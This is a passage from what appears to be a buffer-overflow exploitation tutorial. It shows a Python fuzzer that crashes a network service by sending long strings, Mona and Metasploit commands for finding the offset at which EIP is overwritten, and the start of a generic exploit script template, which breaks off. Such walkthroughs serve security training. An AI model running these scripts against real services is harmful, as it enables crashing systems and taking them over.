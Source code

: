 ```
# fuzzer2.py

import socket

IP = "<IP>"
PORT = <PORT>

payload = 1000 * "A"

try: 
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((IP,PORT))
    s.send(payload)
    print "[+] " + str(len(payload)) + " Bytes Sent"
except:
    print "[-] Crashed"
```

You just have to modify those two variables of the scripts above :

- IP
- PORT

When the application crashes, EIP should be equal to **41414141** (hex value of "AAAA").

------

### Crash replication & controlling EIP

#### Pattern

Generate a cyclic pattern to found the exact offset of the crash :

```
# Mona
!mona pc <SIZE>

# Metasploit
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l <SIZE>
```

The size must be **higher** than the crash offset. Now modify the **payload** variable by the cyclic pattern :

```
# exploit.py

import socket

ip = "<IP>"
port = <PORT>

prefix = ""
offset = 0
overflow = "A" * offset
retn = ""
padding = ""
payload = ""
postfix = ""

buffer = prefix + overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
    s.connect((ip, port))
    print("Sending evil buffer...")
```